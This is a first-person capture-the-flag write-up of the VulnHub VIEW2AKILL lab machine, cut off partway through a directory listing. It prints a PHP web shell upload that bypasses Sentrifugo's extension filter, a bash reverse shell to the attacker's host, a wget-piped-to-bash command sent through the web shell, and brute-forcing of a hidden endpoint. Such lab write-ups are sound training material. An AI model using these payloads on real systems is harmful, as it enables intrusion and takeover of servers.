# View2akill 1

Difficulty:: #Medium
> Classified according to [Vulhub difficulty page](https://www.vulnhub.com/difficulty/)

## Target data
- Link: [VIEW2AKILL: 1](https://www.vulnhub.com/entry/view2akill-1,387/)
- CVSS3 : [AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H/E:P/RL:U/RC:C/CR:H/IR:H/AR:H](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H/E:P/RL:U/RC:C/CR:H/IR:H/AR:H)
  > **Warning**: I select the CVSS3 score to start to practice, so is very possible that I made a mistake in the selection, so do not trust of that CVSS3.

## Machine Description
*Mission: Millionaire psychopath Max Zorin is a mastermind behind a scheme to destroy Silicon Valley in order to gain control over the international microchip market. Get root and stop this madman from achieving his goal!*

> Difficulty: Intermediate
> Flag is /root/flag/flag.sh
> Use in VMware. DHCP enabled.
> Learning Objectives: Web Application Security, Scripting, Linux enumeration and more.


## Summary
VIEW2AKILL: 1 starts with 4 endpoints in the `/robots.txt` file `/joomla /zorin /dev /defense`, in the `/zorin/hr.html` endpoint I find another endpoint called `/sentrifugo`, the  [Sentrifugo website](http://www.sentrifugo.com/)  says that it is a free human resource management system, but without credentials, I can not do anything, The `/dev` endpoint is a directory listing, and among the files it contains the  `e_bkup.tar.gz`, that contains son backups emails with `rtf` extension, one of them describe the structure password of the user `chuck`, it uses the word in a gif, and a frequency data of a datasheet, both of them stored in `/dev` endpoint, I could log in in `Sentrifugo` with the credentials `chuck@localhost.com:helicopter125`.  When I google `sentrifugo exploits`, then I [find an exploit](https://www.exploit-db.com/exploits/48955), and it has the `CVE-2019-15813`, and I need an upload file option, I find it in `sentrifugo expenses/expenses/uploadsave` endpoint,  after reading the [Sentrifugo GitHub repository](https://github.com/Sentrifugo/sentrifugo) and [a post about Sentrifugo Exploits](https://liberty-shell.com/sec/2019/08/31/sentrifugo/), I notice with `BurpSuit` that the requests were malformed, then after I fixed I could upload the web shell and perform a reverse shell with the `www-data` user. When exploring the server I find `/home/jenny/dsktp_backup.zip` and it contains the `ssh` credentials of the user `jenny` in plaintext. With the `jenny` shell. I also identify the `/home/max/notes.txt` that has a hidden endpoint of the `HTTP` services that runs on port `8191`, but I only know the structure of the endpoint, then I use `ffuf` to perform a dictionary attack and I found some noisy endpoints but the interesting is `192.168.2.30:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a/`  and it only has a button that calls `7f98ca7ba1484c66bf09627f931448053ae6b55a/run.php` When I call it, I only see a text with a gif. In the server I also find a python  `/home/max/aView.py` and it can be modified by the `jenny` user, and I notice that the text I saw in the hidden endpoint is the same as the `aView.py` file, and with the `ps aux` command I identify that the web service on `8191` is running by root, then with the `jenny` user I could write python code inside the `aView.py` file, and that will be run by the root user when I access to the `run.php` endpoint. I also notice that is `Python2` then I use  [Reverse Shell Generator](https://www.revshells.com/) to generate a proper payload and get the `root` shell, I run the `flag`  script and I get the root flag.


1. CWE-219: Storage of file with sensitive data under web root
2. CWE-284: Exposure of Sensitive Information to an Unauthorized Actor
3. CWE-434: Unrestricted Upload of File with Dangerous Type
4. CWE-921: Storage of Sensitive Data in a Mechanism without Access Control
5. CWE-256: Plaintext Storage of a Password
6. CWE-912: Hidden Functionality
7. CWE-269: Improper Privilege Management

#VirtualBox #Nmap #Python #Ffuf #vhosts #SHA-1  #Postfix #WebShell #Joomla #Joomscan #Sentrifugo #Burpsuit #Crunch #Vim #Python2

## Enumeration
When I run the target machine in VirtualBox (see the [setup vulnhub machines](../setup-vulnhub.md), and on my target machine, I run the `netdiscover` command:
```shell
$ sudo netdiscover -i enp0s8 -r 192.168.2.0/24
```
Then I compare the MAC with that of the target VirtualBox configuration, and I find out that the IP is `192.168.2.30`



And I start scanning the target with `nmap`:
```shell
$ nmap -p- -sV -oA scans/nmap-full-tcp-sca 192.168.2.30
...SNIPPED...
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3
25/tcp   open  smtp    Postfix smtpd
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8191/tcp open  http    PHP cli server 5.5 or later
Service Info: Host:  rain; OS: Linux; CPE: cpe:/o:linux:linux_kernel
...SNIPPED...
```
Then I identify 4 open ports, the `OpenSSH 7.6p1` service runs on `22` TCP, and the `Postfix smtpd` service runs on `25` TCP, and the `Apache httpd 2.4.29` service runs on `80` TCP, and the `PHP cli server 5.5 or later` runs on `8191` TCP, and it runs on `Ubuntu 4ubuntu0.3`.

When I rescan it with general script scans:
```shell
$ nmap -p 22,25,80,8191 -sCV -oA scans/nmap-tcp-script-scan 192.168.2.30
...SNIPPED...
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 4 disallowed entries
|_/joomla /zorin /dev /defense
|_http-title: A View To A Kill
...SNIPPED...
```
Then I can see that there is a `/robots.txt` endpoint, and it contains 4 endpoints `/joomla /zorin /dev /defense`.

## Normal use case
Given I access `http://192.168.2.30`, then I can see:



And there is a gif from the James Bond movie `A view to a kill`, but there is nothing I can interact with.

## Dynamic detection
Hints of exposed credentials and file upload restriction bypass.

Given I access `http://192.168.2.30/joomla`, then I can watch a video of the movie:



And from the name `joomla`, I can guess that it uses the `Joomla CMS`, but other than that, nothing seems to be helpful
When I run the `joomscan` command:
```
$ joomscan -u http://192.168.2.30/joomla
```
Then it did not find anything, and I start to check another endpoint.

Given I access `http://192.168.2.30/zorin`, then I find 4 hyperlinks:



And they are `chip.html`, `hr.html`, `vision.html`, and `about.html`.

When I use the `curl` command:
```shell
$ curl http://192.168.2.30/zorin/chip.html
...SNIPPED...
<body>
  <p> Once the site goes live, this page will need all required microchip
  datasheets. Throw in something about how friendly our workers are too.
  </p>
</body>
...SNIPPED...
```

When I access `/zorin/hr.html`, then I can see interesting data:



And it mentions the `/sentrifugo` endpoint for HR management, and it also says something about a default password `toor`, and that a real email is not necessary, and that the reset may take some time.

When I access `/zorin/vision.html`, then I can see a gif with the word `destroy`, but it does not seem to be helpful.

When I access `/zorin/about.html`, then I can see the director card:



And that is all I find in the `/zorin` endpoint.

Given I access `http://192.168.2.30/dev`, then I find a directory listing:



And it has some PDF datasheets, notes, and a backup file, and I download them to analyze them later.

Given I access `http://192.168.2.30/defense`, then I can see a message:



And it says that an app checks for unusual files in the webroot.

Given I access `http://192.168.2.30:8191`, then I can only see a color pattern:



But nothing useful.

Given I access `http://192.168.2.30/sentrifugo`, then I can see a login page:



When I google `sentrifugo`, then I can see [Sentrifugo website](http://www.sentrifugo.com/), and it says that it is a free human resource management system, but at the moment, I do not have any credentials, and I decided to check the files on the `/dev` endpoint.

When I extract the files in `e_bkup.tar.gz` :
```shell
$ tar xvzf e_bkup.tar.gz
```
Then I get 4 files:
```
New_Employee_Onboarding_Chuck.rtf
onboarding_email_template.rtf
Stop_Storing_Passwords.rtf
note_to_mail_admins.txt
```
And I read them all:



And an email describes the password of the user `chuck`, Aad it says it has two parts `<lowercase-word><number>`, and the word is `from a video with the remote detonator`, and the number is `the transmit frequency of an HID proxcard reader`. When I read `remote detonator`, then I remember that there is a file with that name in `/dev`, and I see that is a gif with the word `HELICOPTER`, and also in `/dev` there is a file called `HID6005.pdf`, and it is a datasheet of an HID proxcard reader. and I can see that the transmit frequency is `125Khz`:



Then the password is `helicopter125`. When I login with `chuck@localhost.com:helicopter125` credentials, then it works



When I search for the source code of the sentrifugo app, then I find the [GitHub repository](https://github.com/Sentrifugo/sentrifugo), and I try to get check the `/sentrifugo/.git`, and it works. When I download it:
```shell
$ wget -r -np  "192.168.2.30/sentrifugo/.git/"
```
And I run the `git log` command:
```shell
$ git log -1
commit 0ddb8c1422fb5ab834c84fc1dd4282f2727d6d2b
  (HEAD -> master, origin/master, origin/HEAD)
Author: Sapplica <programs@sapplica.com>
Date:   Mon Apr 17 11:49:49 2017 +0530
    Sentrifugo 3.2
```
Then I can confirm that it has the latest commit that is on GitHub, When I google `sentrifugo exploits`, then I [find an exploit](https://www.exploit-db.com/exploits/48955) , and it has the `CVE-2019-15813`, but it does not work. When I explore what I can do in `/sentrifugo` with the user `chuck`, and I understand the general structure of sentrifugo, then I identify that I can upload files in the expense section, and I see that it only allows certain extensions:



But although I send an allowed extension, nothing is uploaded, when I intercept the post request with `BurpSuit`, then I can identify that the post request is wrong:



And I tried to fix it without success, and here I was stuck for several days. When I google `sentrifugo expenses/expenses/uploadsave`, then I find [Sentrifugo Exploits](https://liberty-shell.com/sec/2019/08/31/sentrifugo/), nd that post has a lot of information about `CVE-2019-15813`, and it details how to exploit the file upload restriction bypass. When I combine that with reading the source code, then I was able to understand how the exploit works, and I mean, it does not matter that the PoC of the exploit failed, and the important thing is that that kind of exploitation will work, and it will do it in any of the upload options used in Sentrifugo. When I store a PHP web shell in the `ws.php.docx` file, and I intercept the request with `BurpSuit`, and I modify the body with:
```http
-----------------------------18995739228647964924095755055
Content-Disposition: form-data; name="myfile" ; filename="shell.php"
Content-Type: application/x-httpd-php
<?php system($_GET['cmd']); ?>
-----------------------------18995739228647964924095755055--
```
Then I get a successful response:


:
```http
{"filedata":{"original_name":"shell.php",
"new_name":"1674740065_3_shell.php"}}
```
And now the file should be in the uploads directory, and I found it in `/sentrifugo/public/uploads/expense_receipt_temp/`.

When I use the `curl` command:
```shell
$ curl "http://192.168.2.30/sentrifugo/public/uploads/
> expense_receipt_temp/1674740065_3_shell.php?cmd=id"

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
Then I can conclude that the Sentrifugo HR app is vulnerable, and I can perform an authenticated file upload restriction bypass attack.

## Exploitation

Reverse shell, steal credentials and escalate privileges with a service. Given I can access `http://192.168.2.30/sentrifugo`, and I was able to recover the password of user `chuck` because of an email, and `Sentrifugo 3.2` is vulnerable to `CVE-2019-15813` and the user `chuck` can upload files in the expense section, then I can perform a reverse shell. When I store the reverse shell payload in the `rs.sh` file:
```shell
bash -c 'bash -i >& /dev/tcp/192.168.2.31/1234 0>&1'
```
And I open an `HTTP` server with Python3:
```shell
$ python3 -m http.server 8000
```
And I open a listener with the `nc` command:
```shell
$ nc -lvnp 1234
```
And I use the web shell to download the `rs.sh` file, and run it in memory:
```shell
$ curl "http://192.168.2.30/sentrifugo/public/uploads/
> expense_receipt_temp/1674740065_3_shell.php?
> cmd=wget%20-O-%20192.168.2.31:8000/rs.sh|bash" \
> -b "PHPSESSID=412l22phl4ur9i1c0cu26fp983"
```
Then I get the reverse shell as the user `www-data`:




## Lateral movement

When I explore the server, then I find the file `note.txt` in `/home/max`:
```
...SNIPPED...
The remote trigger is located in a hidden web directory that only you
should know - I verbally confirmed it with you. If you do not recall,
the directory is based on an algorithm: SHA1(lowercase alpha(a-z) +
"view" + digit(0-9) + digit(0-9)).
Example: SHA1(rview86) = 044c64c6964998ccb62e8facda730e8307f28de6 =
http://<ip>:8191/044c64c6964998ccb62e8facda730e8307f28de6/
- Scarpine
```
And I can see the structure of a hidden endpoint, and the number of combinations makes a brute-force attack viable. When I use the `crunch` command to create a wordlist:
```shell
crunch 7 7 -t @view%% -o wordlist_tcp_8191.txt
```
And I open the file `wordlist_tcp_8191.txt` with `Vim`, And I use the command `%g/^/.!<bash>` to run a bash command on each line:
```vim
%g/^/.!sha1sum | cut -d\  -f1
```
And I use the `ffuf` command with the `wordlist_tcp_8191.txt` file:
```shell
$ ffuf -w wordlist_tcp_8191.txt:FUZZ -u "http://192.168.2.30:8191/FUZZ/"\
> -fs 167
```
Then I get several endpoints:



But only one is important:
```shell
...SNIPPED...
7f98ca7ba1484c66bf09627f931448053ae6b55a
[Status: 200, Size: 815, Words: 79, Lines: 46]
...SNIPPED...
```
And just out of curiosity, I check that the hash is of the text `aview24`.
When I access `192.168.2.30:8191/7f98ca7ba1484c66bf09627f931448053ae6b55a/`, then I see an `execute` button


But I do not know what it does, then before pressing it, I continue to check the `/home` directory. When I run:
```shell
www-data@view:/home/max$ ls -la
...SNIPPED...
-rwxrwx--- 1 max      jenny     124 Oct 26  2019 aView.py
